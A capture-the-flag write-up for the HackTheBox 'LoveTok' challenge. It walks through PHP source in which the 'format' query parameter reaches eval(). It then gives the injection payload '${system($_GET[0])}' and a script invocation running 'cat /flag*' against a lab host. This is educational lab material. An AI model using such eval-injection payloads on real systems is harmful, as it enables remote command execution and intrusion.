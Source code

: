 ```yaml
---
title: "HackTheBox - LoveTok"
description: ""
author: raylex
tags: PHP EVAL CODE-INJECTION
categories: CTF HACKTHEBOX
date: 2024-02-10
---
```

![alt text](/assets/images/HTB-LoveTok.png){: w="700" h="400" }  
The home page displays date and texts, however, clicking the `Nah, that doesn't work for me. Try again!` button directs me to `/?format=r` and the date changes.  
Nothing else stands out, so i'll download the provided source code and begin analysis
## TimeController.php
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
The TimeController class retrieves the `format` parameter from the URL query string `($_GET['format'])` if it exists, otherwise, assigns a default value of `r` to the variable `$format`.  
## TimeModel.php
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
Right off the bat, i can see that the `getTime()` function uses the [PHP eval()](https://www.php.net/manual/en/function.eval.php). This function is very dangerous because it allows execution of string as PHP code.  
## Code Injection
Because user supplied `format` is used in the `eval()` function without proper sanitization, if i pass PHP code eg: `${system($_GET[0])}` as the the `format`, the program should execute it as PHP code and i can use `&` to append parameter `0` (which is the system command i want to execute):
![id-www](/assets/images/HTB-LoveTok-id.png)
I'll write a [python script](/assets/cft-scipts/HTB-LazyTok-PHP-CodeInjection.py) just because i can 😄 and retreive the flag
```
./HTB-LazyTok-PHP-CodeInjection.py 94.237.63.93:41900 "cat /flag*"

HTB{wh3n_********************p0pp1ng}
```